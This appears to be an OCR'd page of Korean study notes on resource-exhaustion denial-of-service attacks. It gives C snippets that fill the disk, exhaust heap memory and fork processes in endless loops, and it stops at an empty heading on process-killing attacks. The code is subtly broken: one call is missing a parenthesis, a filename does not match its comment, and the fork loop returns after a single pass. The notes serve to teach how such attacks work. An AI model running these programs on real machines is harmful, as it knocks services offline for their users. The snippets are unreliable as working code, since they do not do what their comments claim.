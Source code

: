 시스템 자원 고갈 공격
---

시스템이 보유하고 있는 자원을 모두 선점하거나 모두 고갈하는 방식으로 수행된다.

- 서비스 거부 공격(DOS)라고도 부름

### 가용 디스크 자원 고갈 공격

```C
#include<unistd.h>
#include<sys/file.h>

void main(){
  int fd;
  char buf[1000];

  fd = creat("/root/termifile" ,0777);

  while(1){
    write(fd,buf,sizeof(buf); // tempfile 계속 써서 → 디스크 용량 고갈
  }
}
```

### 가용 메모리 자원 고갈 공격

```C
#include<stdio.h>

void main(){
  char *m; // 포인터 변수

  while(1){
    m = malloc(1000); // 동적 할당 → 힙 메모리 고갈
  }
}
```

### 가용 프로세스 자원 고갈 공격

```C
#include<unistd.h>

void main(){
  while(1){
    fork(); // 프로세스 반복 복제 → 가용 프로세스 고갈
    return 0;
  }
}
```

### 프로세스 죽이기 공격
